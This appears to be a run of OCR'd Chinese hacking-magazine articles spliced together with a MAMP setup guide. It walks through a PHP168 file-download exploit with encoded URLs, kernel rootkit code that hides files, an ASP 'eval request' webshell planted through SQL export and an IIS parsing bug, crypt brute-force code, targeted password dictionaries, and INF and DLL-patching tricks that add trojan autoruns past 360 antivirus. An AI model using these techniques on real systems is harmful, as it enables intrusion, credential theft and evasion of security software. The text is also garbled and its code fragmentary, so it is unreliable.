使用工具来利用0day的确很简单，但是它利用的是什么漏洞呢。从可以爆出数据库的用户名和密码这点来看应该是几个月前的“PHP168下载任意文件漏洞”，但是那么久了官网还没有修复漏洞吗。于是去搜索了这个漏洞的利用教程，发现是在网址的后面加：do/job.php?job=download&url=cGhwMTY4L215c3FsX2NvbmZpZy5waHAg就可以直接下载到数据库配置文件，得到数据库的用户名密码。我去官网的演示网站试了下，结果不行，如图17。我的操作系统为win7旗舰版，浏览器为IE8.0。
这就奇怪了，难道还真是新的漏洞吗？于是我来对这个工具进行抓包查看，抓包的结果发现的确是这个漏洞，但是提交的方式不一样，图18。工具提交的地址是：do/job.php?job=download&url=cGhwMTY4L215c3FsX2NvbmZpZy5waHAv，漏洞的利用的地址最后不是g而是v。
网上的漏洞说明“url=”后面是base64加密，我找了一个在线的解密网站解密了一下，如图19。发现是在mysql_config.php后面加了“/”，再看了下网上的利用方法是在mysql_config.php后面加了空格。所以官网修复了漏洞只是把空格处理了，这个漏洞实际还是存在的。
对官网进行测试，结果发现漏洞果然还是存在的，图20。
继续对利用工具进行抓包，发现工具对203.171.225.68提交了数据，这样很有可能是后门，图21。所以，我对利用工具的三个功能进行抓包后就不用这个工具了，而直接使用工具提交的链接。抓包和解密的结果如下：

```
/do/job.php?job=download&url=Y2FjaGUvYWRtaW5fbG9ncy5waHAv' 后台
cache/admin_logs.php/
/do/job.php?job=download&url=Y2FjaGUvYWRtaW5sb2dpbl9sb2dzLnBocC8= 日志
cache/adminlogin_logs.php/


```

总结，通过这次的漏洞工具利用复习了一些mysql数据库命令，对工具的抓包得到了漏洞的利用方法，发现了可能存在的后门。
（本文所涉及的漏洞工具、webshell、抓包得到的语句已收录在本期光盘中）

# Rootkit：系统中的幽灵

也许你在和别人聊天，看一篇文章，或者一份技术分析报告中看到过这个字眼。也许你会觉得这是一个神秘、强大的某种事物，甚至在心中将它和高手隐隐画上等号。它的神秘和复杂令你望而却步，但它的强大又吸引着你的目光。

现在我告诉你：它并不神秘，就是难度高了些，毕竟是高端技术，这篇文章会引领你去了解它。

看到这里，你想到了什么？通过本文一夜之间炼成 ROOTKIT 大法，从此无敌于江湖，成为万人景仰的大虾？

那时 mp3 格式已经相当成熟，越来越多的人开始从 CD 中抽取音乐转为 mp3，然后在互联网上分享它们。音乐企业为了挽回在音乐盗版上所遭受到的损失而努力，其中一家企业，Sony BMG 决定在他们的 CD 中使用 XCP 与 Mediamax 防拷技术。这两种技术我们不必去了解，我们只要知道，Sony BMG 在其中加入了 Rootkit 技术。用户插入光盘后，防拷程序便在 Rootkit 的掩护下进行了刺……。二位技术作家 Mark Russinovich 发现了这件事，在他的博客中发表了一篇文章揭露此事，引起了公众的强烈反响，最终导致 Sony BMG 从光盘中去掉这个程序并公开倒歉。自此，Rootkit 进入了公众的视野。

### 一、Rootkit 的来历

Rootkit 这个词第一次出现是在 1994 年 2 月一篇名为“ Ongoing Nework Monitoring Attacks”的安全咨询报告。不过它正式走向大众的视野却是在 2005 年。

### 二、Rootkit 的基本概念

我们可以将一部个人电脑粗略的划分成三个部分，硬件、操作系统、软件（严格来说操作系统也是软件，这里的划分是为了便于理解）。硬件提供最原始的工作环境和资源，做为基础平台。操作系统盘踞在硬件平台上，对硬件提供的资源进行某种意义上的抽象化处理，并根据软件提出的申请进行分配。软件一般不能直接对硬件进行访问，只能籍由向顶头上司“操作系统”申请来获取资源。打个比方，硬件是自然环境，而操作系统是加工厂，软件则是电子工业。

一般把操作系统称为系统层（Ringo），将软件称为应用层（Ring3）。系统层权限高于应用层，系统层的指令得优先于应用层执行，且二者冲突时以系统层为准。（Windows 只使用其中的两个级别 RING0 和 RING3，RING0 只给操作系统使用，RING3 谁都能用）。另外有一些程序也是 Ring0 级的，比如杀毒软件。拥有 Ring0 权限几乎可以进行任何操作，Rootkit 就是运行在某系统层的。

Rootkit 到底有什么用呢？打个比方。我将它比作一件隐身衣和一把宝剑，或者更贴切一点，一种能让使用者隐身、可以随意穿梭在电脑中而不被发现，如果你高兴，完全可以拿它这柄剑在杀软件前跳上一整支 disco。不，过你要先确定这位老大爷没有戴最新型的反 Rootkit 眼镜。（不过戴这副老花镜的杀软并不多）。这种利剑的另一个功能就是无视一切防护，持有这柄剑你就可以在电脑中为所欲为，不会被任何程序所阻拦。当然，这种比喻有些夸张，不过基本上也差不多。

现在我们给 Rootkit 下一个定义：Rootkit 是一个数字工具箱，可以加到恶意软件（木马病毒间谍软件）中来隐藏它，为它提供自由访问计算机的途径。恶意软件可以通过 Rootkit 加载到系统内核中，并通过修改内核达到隐藏的目的（比如让系统认为恶意软件占用的空间为坏块，从而躲避杀软扫描）。Rootkit 可以提供自由访问计算机的途径，这个比较好理解，通过 Rootkit 注入系统内核的恶意程序，通常具有 Ring0 权限。另外有些人认为 Rootkit 是用来获取系统 root 权限的工具，其实并不是这样，Rootkit 的功能是可以将其它程序注入内核（有的 Rootkit 本身就是木马病毒）。如何获得内核权限，则需要另想办法。

## 三、怎样防御Rootkit等恶意软件

下面谈谈怎么防护，最好的办法就是御敌于国门之外。如果不慎中招，我只能告诉你，目前唯一能确定可以彻底清除的方法是——重装系统。不过这技术中国还流传的不广，所以也不必过于担心。另外就是找一些专业软件扫描一下，也许那些软件有些办法也说不定。

## 四、Rootkit初步应用

现在相信大家对Rootkit已经有了初步的认识，下面我们就制作一个小小的Rootkit试验。（如果您没有编程基础可以跳过本段不看。另外我为了使大家更了解Rootkit，在网上收集了几篇比较好的文章，大家可以结合本文进行理解。）

RK（rootkit的简称）的出现催生了ARK（反rootkit）技术的发展，也就是前面说的反rootkit增强镜。这些老花镜对系统中的RK的检测主要分成两种：一种是对文件系统的检测（比如大名鼎鼎的冰刃），和另一种直接对磁盘的低级检测（Disk Low-Level Scanning）。此外还有在应用层上通过调用ZwQueryDirectoryFile进行检测的，不过效果不是太好，用的也不多。

其实不管怎么检测，都是直接或间接发送IRP（I/O request packet的缩写，即I/O请求包）到底层驱动的。第一种的发送到FSD中（File System Driver，文件系统驱动程序，也就是前面说的系统层），第二种被发送到磁盘驱动（也就是前面说的驱动层），而后IRP便会携带得到的文件信息返回，这时检测程序再根据返回信息进行处理和判断。但是由于低级磁盘的层比文件系统层低（更贴近硬件层），IRP返回给我们的磁盘扇区信息更加接近数据原始组织方式，所以在此上实施文件检测可以得到更令人信服的结果。但这并不等于说这类检测不能被击败。

我们编写这段程序RK与其说是来进行检测，不如说是修改了检测结果，时髦的说法（好像也不怎么时髦了），可以叫做主动防御，嘿嘿。具体就是挂钩某些函数的调用，然后过滤掉其中的一些信息。下面就是针对IRP形式检测的Rootkit编码：

```
if (Irp->StackLocation->MajorFunction == IRP_MJ_READ) &&
FSD: ...
IRP ...
// 声明部分变量
orgNtRead = ImpSysCallOverload( ... );
```

```
orgNtProcess = IoThreadProcess(...)
Gf(...)
UserBuffer = (PVOID) ...
ZwQueryDirectoryFile(...)
WorkerCtx->UserBuffer = UserBuffer
WorkerCtx->Length = ...
Parameters->ReadLength
WorkerCtx->Eprocess = ...
WorkerCtx->WorkItem = ...
ExecuteWorkerItem(WorkerCtx, WorkerItem)
GetCallbackWorkQueue()
GetCallbackWorkQueue(...)
```

```
while(currPosition < indexSize &&
currIndxEntry->Size > 0 && currIndxEntry
->FileNameOffset > 0)
{
    if(!_wcsnicmp(currIndxEntry->FileName,
hideFile, 9))
    {
        memset((PVOID)currIndxEntry
->FileName, 0, 18);
        if(currPosition == 0)
        {
            ((PINDEX_HEADER)UserBuf)
->IndexEntryOffset += currIndxEntry->Size;
            break;
```

```
}
    preIndxEntry->Size += currIndxEntry
->Size;

    break;
}
currPosition += currIndxEntry->Size;
preIndxEntry = currIndxEntry;
currIndxEntry = (PINDEX_ENTRY)((ULONG)
currIndxEntry + currIndxEntry->Size);
}
}
}







```

（文章中所涉及到的编码和相关文章已收录在光盘中）

# WebShell获取之SQL语句执行

某天遇到一个企业站点，简单的测试了下，前台页面没有SQL注射漏洞，在地址栏后面加上“admin”跳到了后台管理页面（如图1），采用NCMS的CMS。
图1

立马在网上搜索了下这款CMS，并没有找到相关的漏洞信息，看来人气不高。很轻松地下载到源代码，其默认路径为“/database/#ncms.mdb”，试试看默认的数据库地址是否没有更改。将“#”改为“%23”，

请求“http://www.***.com/database/%23ncms.mdb”，成功下载到数据库，用户名密码信息也是采用的弱口令。

登录后台成功，有个类似asp探针的小功能，web物理路径显示出来了，为“E:\wwwroot\seo\***\”。翻了翻后台，有数据库备份功能，但在数据库中发现有NOTDOWN表，猜测即使备份成asp也运行不了。

在“辅助功能”下有执行SQL语句的功能，马上测试了一下，提示执行成功，但无法返回执行成功的结果，前面通过asp探针获得了WEB的物理路径，来尝试下导出web-shell，其原理很简单，就是将在数据库中查询到的结果保存到一文件中。文件导出在在Access中不是很流行，我们遇到的多是在mysql，root权限下用“select *** into outfile 'd:/web/shell.php'”获得webshell。Access下之所以不流行，是因为利用Access作为数据库开发的网站中，提供sql语句执行功能并不常见，而且文件导出需要获得网站物理路径，再加上微软出于安全与其它一些方面的考虑，文件导出格式是有限制的，像asp、asa等无法导出成功。前段时间爆出了win下文件类型的一个bug，如“fj.asp;hh.txt”会被当成asp解析，这下我们就可以利用之获得webshell了。

马上执行“SELECT * into [fj.asp;hh.txt] in 'E:\wwwroot\seo\***\' 'text;' from NCMS_admin”，提示

# 黑客柳系统

成功（如图2），但访问 j.asp;hh.txt 却显示404错误。
在下载到的代码中找到了执行SQL语句的函数，并没有发现函数对导出的文件名有任何判断与过滤。

```vb
Sub executeSql
    Dim content
    content = gfV("content")
    ' gfV函数：gfV = Request.Form(str)
    On Error Resume Next
    Conn.BeginTrans
    Conn.Execute(content)
    成功
    If Err.Number <> 0 Then
        Err.Clear
        Conn.Rollback
        Conn.Close
        Set Conn = Nothing
        Call AlertBox("执行SQL语句时出现错误！")
    Else
        Conn.CommitTrans
        Conn.Close
        Set Conn = Nothing
        Call AlertBox("执行SQL语句成功！")
    End If
End Sub
```

call alertbox("未找到sql语句或数据库备份成功")

```vb
Call alertbox("未找到sql语句或数据库备份成功")
End If
End Sub
```

那为什么会导出不成功呢？会不会是服务器上还存在特殊杂软或其它BT的设置？继续看看后台的各功能，不支持文件上传，但“数据库备份”可以生成新文件夹（如图3）。

从图中，我们可以看到，系统提供的数据库备份与我们以前遇到的有些区别，这里都是填写文件路径，无需填写文件名。这就奇怪了，难道系统会自动获得路径下的文件？幸好下载到了源码，相关的实现代码如下：

```vb
Sub backup
    Dim sfolder, dfolder
    sfolder = gfV("sfolder")
    dfolder = gfV("dfolder")
    If sfolder = "" Then
        Call alertbox("把你的路径放到这里！如图2")
    End If

    Call createdir(Server.Mappath(dfolder & ""))
    Call movefiles(sfolder, dfolder)
    Call alertbox("数据库备份成功！")
End Sub
```


```
end if
set fso = nothing
end function

function createdir(SPATH)
    d = 1
    Level_pathTmp = SPATH
    on error resume next
    SPATH = replace(SPATH, "\\", "/")
    set fso = Server.CreateObject("Scripting.FileSystemObject")
    pathArr = Split(SPATH, "/")
    pathLevel = ubound(pathArr)
    For i = 0 to pathLevel
        If i = 0 then
            pathTmp = pathArr(0)
        else
            pathTmp = pathTmp & "/" & pathArr(i)
        end if
        if folderexists(pathTmp) then fso.createfolder(pathTmp)
    next
    set fso = nothing
    if err.number <> 0 then
        err.clear
        createdir = false
    else
        createdir = true
    end if
end function
```

的数据库备份是利用movefiles函数将“当前数据库路径”下所有文件复制到“备份数据库路径”下，由于只是简单的复制，并不提供对备份成功后文件的更名功能。

思考了一下，既然能生成新文件夹，那我们可以生成一个“fj2.asp”的文件夹来，再用“执行SQL语句”功能将文件导出其中，而IIS 6.0会将“*.asp”文件下的文件当成asp解析。测试过程如下。

```sql
insert into NCMS_admin(username,passcode,addtime)
values('1', '<%eval request(chr(35))%>', 122, now())
导出SELECT * into [test.txt] in 'E:\wwwroot\seo\fj2.asp' 'text' from NCMS_admin


```
最后，很是迷茫为什么在直接导出为“fj.asp.txt”会提示文件不存在，难道此服务器已修补了该漏洞？本着对“真理”的无限探索，一番测试后终于明白原因（如图5），服务器修复了文件解析漏洞，将“.”更改为下划线。
在定义的backup过程中，先判断“当前数据库路径”和“备份数据库路径下”是否真有，如“备份数据库路径”中的文件夹不存在，则调用createdir函数来创建文件。

# PHP中使用密码技术加强网站安全

为保证密码的强度，php一般采用crypt函数对用户密码进行加密，就算被破解明文后，进入数据库，因为crypt函数采用不可逆算法（12位干扰字符串加22位MD5字符串），得到加密后的字符串也无法逆推其原密码，因此确保了用户密码的安全。

安全性。调用形式如：`crypt(输入的密码，数据库的加密字符串)==数据库的加密字符串`。

## 二、破解crypt函数的一些实际做法

既然crypt采用不可逆算法，是否就真的不可能被解密吗？其实不然，在密码强度不大的情况下可尝试以下几种方法：

### 1. 更换法

用已知原密码的字符串取代数据库的加密字符串，例如：密码为123456的加密字符串为：`$1$4n/.5G2.$1.` `KjaYaxZZUf1aJ7.41X00`。

### 2. php大马暴力破解（数字型密码）

上传php大马，运行php代码，暴力破解（9位以下数字密码，9位以上密码运行时间较长）。思路是采用crypt函数逐一核对数字加密后是否与密码串相同，如果相同，则密码找到并显示。具体代码如下：

```php
<?php
$pwd = '$1$8S7J.v2// $1WkCSBopA10fZVjOA3SH8M';
// 这里是要破解的加密字符串
for ($i=10000; $i<1000000000000; $i++) {
    // 设定密码
    if ($i==1000000000000) {
        // 破解失败
        print("not found password");
        break;
    }
}
?>
```

```php
namespace 4.03;

public class Form1 : Form
{
    public class phpcrypt
    {
        [DllImport("php5ts.dll", EntryPoint = "crypt")]
        private static extern string crypt(string X, string y);

        public static extern string crypt(string X, string y);

        public Form1()
        {
            InitializeComponent();
        }

        private void button1_Click(object sender, EventArgs e)
        {
            DateTime d1 = DateTime.Now;
            textBox1.Text = "";
            button1.Enabled = false;
            string pass = textBox2.Text;
            double i = 0;
            for (i = 10000; i < 1000000000000; i++)
            {
                if (i == 1000000000000)
                {
                    // 破解失败
                    textBox1.Text = "not found password";
                    button1.Enabled = true;
                    DateTime d2 = DateTime.Now;
                    label4.Text = Convert.ToString((d2 - d1).TotalSeconds);
                    break;
                }
            }
        }
    }
}


```

### 3. C#程序破解

上面方法需要具体的php运行环境，而php环境的配置还是比较麻烦的，用C#可编写出暴力破解程序。思路是：调用php5ts.dll的输出函数crypt，对密码逐一暴力破解。具体代码如下，运行环境：windows xp visual studio 2010。

# 爆破与字典之浅见

牟晓东

“爆破”，非“爆破”也，是“暴力破解”的简称。虽然从名字上看，它似乎非常给力，但说白了，爆破其实就是一个极其机械式的循环测试过程——通过调用相关的“字典”文件来逐一对目标进行登录测试实验，直到成功为止。当然，此“字典”也非“新华字典”，它里面存放的是若干种数字、大小写字母甚至是一些特殊符号的排列组合，充当的角色是爆破的“炸药”。

最初的爆破大部分都是针对于软件的注册破解的，目的是找出对应的注册码，但如今爆破的范围则早已倾向于Internet上的远程入侵Web网站、FTP和POP3邮箱账号的猜解等。以远程爆破Nt-Servwer账号密码为例，著名的扫描软件X-Scan本身自带了几个字典文件，其中就包含有许多大众化的弱口令字典（像“123456”、“888888”、“administrator”等），可以用来对目标账号的口令进行爆破，再以近几年最为流行的网站注入为例，像“啊D”、“明小子”也都自带了包含诸如“/upfile.asp”、“/manage.asp”和“/admin/ad_login.asp”之类的字符串内容的字典，用于对目标网站后台路径的猜解爆破。从某种程度上讲，这些入侵检测工具都是“活”的，就像是小孩子玩儿的积木玩具一样，我们可以根据实际情况给工具挂接上针对性极强的最给力的字典，从而让它发挥出更大的威力。

以针对Windows的远程密码破解软件Brutus为例（可以破解HTTP、FTP、POP3、Telnet、SMB等密码），运行其主程序BrutusA2.exe，前面的目标（target）IP、类型（Type）等必要的选项都设置好之后，在中间的身份验证（Authentication Options）处选择待破解的账号字典（User File）和密码字典（Pass File），可以分别点击其后的浏览（Browse）按钮来选择对应的字典，如图1；BrutusA2默认的账号字典是users.txt、密码字典是words.txt，最后就是点击右上方的开始（Start）按钮来进行爆破了。

一般我们可以直接从网上下载“100多万个国人名字拼音字典”、“常见的英文单词字典”或是“生日1980-2010年”之类的现成压缩包字典文件，将解压缩后得到的.txt类型的字典存放于BrutusA2目录中，便于在BrutusA2中方便地调用。当然，我们也可以选择一些能够生成字典文件的工具软件来自行“生产”字典，比如“易优”、“木头”和“黑刀”等超级字典生成器。不过，针对于目前非常热门的“社工”（利用社会工程学来入侵），还是建议大家试用一下ncphpass（N.C.P.H社会工程学字典），与BrutusA2一样，“N.C.P.H社会工程学字典”也是一个绿色小巧的软件，直接双击运行即可。在主界面中，软件要求我们填入“用户名”、“用户出生日期”、“用户邮箱名”和“用户QQ号”等信息，当然也有“女友/妻子电话”、“女友/妻子网名”和“用户最好的朋友名”等更为详细的信息，如图2，收集填入的信息越多，理论上最终爆破密码的几率就越大。即使这些信息都不填写的话，该字典生成工具也能生成一个常规的字典，不过这样就失去了使用它的意义了。当所有的收集信息都填写完毕之后，我们只需点击最下面的“生成密码字典”按钮即可快速生成一个四五KB大小的pass.txt类型字典文件，与所有的字典文件一样，每个密码单独占一行，大约有390多个。

现在，爆破的流程就应该是这个样子的：首先是收集对方网管的各种信息（名称、邮箱、QQ号等），甚至可以详细到其女友或宠物等等，然后使用“N.C.P.H社会工程学字典”，生成一个极具针对性的给力字典；最后，将字典挂接到BrutusA2之类的工具上实施爆破！哦了！！
# 杀软高、主防硬、INT又高又硬！

/0℃swan

随着杀软主动防御的普及，木马常见的启动方式甚至可疑的行为在其运行后很快就会被拦截，但是攻防中往往能使反病毒技术和免杀技术双方都得到了很大的提高。拿360的主动防御来说虽然强悍并且敏感，但是也是根据人的意愿而定义的一套规则罢了，这也代表着肯定有哪些地方有所遗漏。

前几年利用autorun.inf来感染各个磁盘的根目录，使其双击即可达到运行指定木马的效果，对黑客技术好探究明白的人肯定会认真研究后缀名inf 的文件到底是何方神圣吧，如果你还不清楚INF文件的具体信息，看其百度百科里的介绍就会一目了然。其实INF文件也可以帮我们构建一条桥梁逃脱主动防御的监测，具体体现在通过此种文件对注册表的操作是不会有任何提示的（写Run除外），这里以写木马常见的服务启动做为例子。在C盘根目录下创建一个inst.inf文件，内容如下所示：

```
[Version]
Signature="$WINDOWS NT$"
[DefaultInstall.Services]
AddService=SWAN,,Add_Evil_Service ;服务名称
[Add_Evil_Service]
DisplayName=SWAN ;显示名称
Description=Tested By SWAN ;服务描述
ServiceType=0x10 ;服务类型
StartType=2 ;启动类型
ErrorControl=0 ;错误控制
ServiceBinary=C:\windows\360safe.exe ;服务要加载的exe文件路径
```

一般情况下，我们在安装INF文件的时候，都会在右键选择“安装”，其实CMD模式下的命令也是有的，命令如下：rundll32.exe setupapi,InstallHinfSection DefaultInstall 128 c:\inst.inf，如图1。

如果证明通过INF文件操作注册表可以逃避360主动防御的监测，那么以前有害于360软件的行为如镜像劫持，不就是死灰复然啊，其实不仅这样，学习了这种技术，说不定哪一天注册表被禁用，CMD也被禁用，这个时候利用一个小小的INF文件就可以解决，代码如下：

```
[Version]
```

```
Signature="$CHICAGO$"
[Defaultinstall]delREG=Gc
[Gc] HKCU,"Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\system","disableregistrytools","0x00010001","1"


```

有人肯定厌烦去学习新的理论，所以就用一个工具来解决从REG文件到INF文件的转变，这个工具的使用类似我们在EXE、BAT、VBS转换的那些工具，如图2。
其实从中我们可以很容易得出一个结论，360主动防御监控最在意的是谁干了什么，然后是干什么，如果是自己认为安全的文件对系统对注册表做了修改，肯定不会拦截。INF不被监视的原因估计是在于调动的文件时系统文件rundll32.exe 不在其关注的范畴，反而通过CMD，REG，VBS等方式早就被盯上了不容易逃过其法眼。反而言之，我们利用一个文件是360认可的，确切的说是其MD5值是其具备的，而且是有名的软件所调动就不会被拦截，从我们的日常情况就可以知道这个理论是正确的，如迅雷等具有一个知名度的软件所做出的修改注册表的行为都是被允许的，可以知道。当然可以从360对其竞争对手（如金山、可牛）的拦截情况又可以做为旁证。这个时候，一个对360比较邪恶的方法就可以用来操作注册表并被其认为允许修改。

```
reg.exe add HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v muma /d "C:\Program Files\Help...\muma.exe" /f
md "C:\Program Files\Help..."
copy muma.exe "C:\Program Files\Help...\muma.exe"
```

这个方法似乎在某些网站上也有人提出过，先找一个皮皮播放器一类的软件，因为数据库里面有PIPIPlayer.exe的MD5，所以进行敏感操作的时候不会提示未知。PIPI-Player.exe需要一个运行库MFC71.dll，我将MFC71.dll用OD载入，找空白区域写入：

```
ASCII "ie.bat",0
DB 00
PUSH 0
NOP
PUSH MFC71.7C21CF30
CALL kernel32.WinExec
JMP MFC71.7C14F41A


```

如果一切按理论的进行的话，你可以清晰的看到，利用被认可的软件修改注册表是被360允许这铁一般的事实，如图3。
反汇编不是很熟练的话，要重新复习以前黑X里有关DLL劫持的文章哦。我们这里是创建一个ie.bat，它可以进行敏感的操作，例如添加服务，添加启动项，修改首页等注意，添加启动项时候要先添加，再将程序复制到添加的路径，直接添加还是会提示未知的。Ie.bat的内容如下：

总结：360主动防御的出现一方面要阻止恶意软件的运行，但一方面又要考虑一些正常软件一定会修改注册表的现实，所以就制定了注了“白名单”的规则，不关注白名单里软件的行为，而关注那些不被认识，甚至可以说是MD5值，数据库根本没有的文件对系统的操作，（确切地说只能迫不得已执行，更在乎的文件本身，要不然那些迅雷更改注册表不是敏感的耍死）但是这种方法出现一个漏洞的，如果这个文件既不是白名单的文件，又不是你被关注的文件，并且是系统文件，那么就容易逃脱法眼的监测。

（本文所涉及的相关文件光盘已收录）

# 手动配置MAMP环境手记

PHPing 勿扰

现在，用mac的同志越来越多，很多像我一样的有探索精神的汉子们都拥有了mac。但是，那个该死的php却怎么也调不出来，无法安装。网上的安装方法也不详尽，大体可分为一下几类：

- 1. 将就凑合型：就是用mac自带的apache和php。当然，得经过一番调试。弊端很明显，apache和php的版本都很旧，而且不能更新，这是很麻烦的。
- 2. 整体打包型：这种方法就是用现成的套件（记得windows下的xampp和wamp吗？），虽然我们可以得到较新的版本，但我们自己不能灵活控制一些选项，这也不符合我们的探索精神。

我这次给大家介绍的是手动配置apache+php+mysql，让大家体验手工的乐趣，嫌麻烦的请直接跳过。

## 一、阅读前的一些注意事项

- 1. 本文章是以安装手记的形式展开叙述，会将遇到的各种问题一一解释，文章中写的就是我安装的步骤。
- 2. 行文的过程中可能需要一些软件，这里就不统一介绍了。

3. 本文适用环境：安装有最新 mac 系统的标准的 Mac 机器，黑苹果不在此列。服务器版本系统我没安装触碰过，不保证好使。

## 2. 进行准备

首先安装编译环境，它的名字是 Xcode，安装文件在安装盘里（如图3）。但是这个版本不够新，最新版本在苹果网站上，三个多 G，有兴趣的自己慢慢下载来（如图4）。由于我足够有兴趣，所以我下了下来开始安装。一路下一步就 OK 了，就是得耐心等待。
4. 本文搭建的环境只适用于测试学习之用，请勿按照本文的方法搭建真实的服务器，并在网上运营，否则你会死得很惨。切记！

## 二、总体过程

一共三大件，Apache、Mysql 和 PHP。其中 Apache 和 PHP 是需要手工编译的，Mysql 官方提供安装版。PHP 要和 Apache、Mysql 搭配，显然得先装 Apache 和 Mysql。本着先易后难的原则，定下安装顺序：Mysql、Apache、PHP。

再来说说如何手工编译的问题。众所周知，Mac 是基于 Unix 内核的，Unix 的开源软件编译有 3 部（这个一会再介绍）。熟悉 Unix 的朋友可能此时已经看不下去，兴冲冲的找起源代码开始编译了。可是他也死的很惨，原因是 Mac 上没有编译环境。但是如果编译环境本身需要编译，那就成了一个笑话。事实上，苹果有一套编译环境，就是安装，他就是……（卖个关子）。

## 三、详细安装步骤

### 1. 更新系统

像我这次为了写这篇文章，专门新装了一个 Snow Leopard，更新一下。这个大家肯定都会（如图1、2）。
其次打开 root 帐户，因为 root 是实际存在的用户，拥有最高权限。Mac 为了安全，锁定了这个帐户。现在我们需要打开它。我到系统偏好设置，选帐户，点登录选项→加入，打开目录实用工具（如图5）。在目录实用工具中点钥匙锁，设置密码，点“好”（如图6）。
# 2011台机大全
装。（如图9）安装第3个时候出现（如图10）的提示，请选择第二项。装完后，在系统偏好设置里会出现MySQL的项目，但是点Start MySQL Server是不起作用的。这是因为MySQL得经过一番设置才可以使用的。
找到编辑菜单，选取编辑→启用root用户，然后在“密码及验证”栏内输入root密码，点“好”（如图7）。
然后切到root下：选苹果菜单中的注销，就可以退回到登陆界面，点其他，用户名输root，密码输你刚才设的密码（我就不截图了）登录到root下。警告：在root下工作有风险，请不要乱改乱删，否则会引起严重后果。

### 3. 安装MySQL

打开Safari，浏览 http://www.mysql.com/downloads/mysql/，找到 Mac OS X ver. 10.6 (x86, 64-bit) DMG Archive，选Download（如图8）。（如果你的Mac是32位，就找32-bit）提示要注册，选“No thanks, just take me to the downloads!”然后会出现镜像列表，把页面向下拉，就会看到台湾的镜像服务器（这里就得看你的网络了），点“HTTP”或“FTP”把文件拖下来。装载镜像后，依次安装。

```bash
defaults write com.apple.finder AppleShowAllFiles -bool true
killall Finder


```
接着在实用工具里打开终端，输入以下命令（注意大小写）：

```bash
cd /etc
nano my.cnf


```
按^X，选Y，按回车。此时，再到系统偏好设置中，mysql面板，是不是好使了？但此时你仍然无法连接，关掉Mysql，打开Finder，找到菜单中的“前往→前往文件夹”，输入：`/usr/local/mysql-5.5.8-osx10.6-x86_64/data/`，找到 mysql，删除之。在终端里执行：

```bash
cd /usr/local/mysql
```

```bash
scripts/mysql_install_db
```

打开mysql，执行：

```bash
bin/mysql_secure_installation


```

